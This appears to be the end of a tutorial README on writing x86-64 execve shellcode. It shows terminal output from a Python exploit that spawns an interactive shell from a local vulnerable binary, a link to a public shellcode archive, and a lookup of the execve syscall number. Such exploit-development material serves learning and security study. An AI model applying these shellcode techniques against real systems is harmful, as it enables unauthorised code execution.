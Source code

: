 I referenced this shellcode while writing the above shellcode:
```
http://shell-storm.org/shellcode/files/shellcode-603.php
```

also just testing out shellcode:
```
$	./shellcode 
$ echo hi
hi
$ exit
$	python exploit.py 
[!] Could not find executable 'vuln64' in $PATH, using './vuln64' instead
[+] Starting local process './vuln64': pid 13791
[*] Switching to interactive mode
$ ls
exploit.py  readme.md  shellcode  shellcode.asm  shellcode.o  vuln.c  vuln64
$ w
 22:07:44 up  7:30,  1 user,  load average: 1.40, 1.24, 1.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guy      tty7     :0               14:50    7:29m 14:06   0.44s /sbin/upstart --user
$ exit
```
also if you want the full list of what syscall codes correspond to which operations:
```
$	cat /usr/include/asm/unistd_64.h | grep execve
#define __NR_execve 59
#define __NR_execveat 322
```